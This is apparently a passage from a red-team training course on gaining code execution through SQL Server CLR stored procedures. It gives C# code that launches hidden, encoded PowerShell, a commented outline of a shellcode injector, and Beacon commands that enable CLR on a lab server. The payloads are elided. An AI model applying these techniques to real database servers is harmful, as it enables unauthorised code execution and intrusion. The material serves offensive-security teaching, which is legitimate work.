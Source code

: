 Since you can write practically any arbitrary C#, the sky's the limit in what you can do here.  For example, use the [System.Diagnostics](https://learn.microsoft.com/en-us/dotnet/api/system.diagnostics) namespace to run PowerShell like in the previous example:

```c#
public partial class StoredProcedures
{
    [SqlProcedure]
    public static void MyProcedure()
    {
        var psi = new ProcessStartInfo
        {
            FileName = @"C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe",
            Arguments = "-w hidden -nop -enc ..."
        };
        
        Process.Start(psi);
    }
}
```

Or write a complete shellcode injector via P/Invoke and one of the previously-shown [injection patterns](https://www.zeropointsecurity.co.uk/path-player?courseid=red-team-ops&unit=67e93b6eebe539b1980ef449).

```c#
public partial class StoredProcedures
{
    [SqlProcedure]
    public static void MyProcedure()
    {
        // VirtualAlloc
        // WriteProcessMemory
        // CreateThread
    }
}
```

Check if SQL CLR is enabled, and enable it if required using `sql-enableclr`.

```powershell
beacon> sql-query lon-db-1 "SELECT value FROM sys.configurations WHERE name = 'clr enabled'"

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Executing custom query on lon-db-1

value | 
--------
0 | 

[*] Disconnecting from server

beacon> sql-enableclr lon-db-1

[*] Connecting to lon-db-1:1433
[+] Successfully connected to database
[*] Toggling clr enabled on lon-db-1...

name | value_in_use | 
----------------------
clr enabled | 1 | 

[*] Disconnecting from server
```

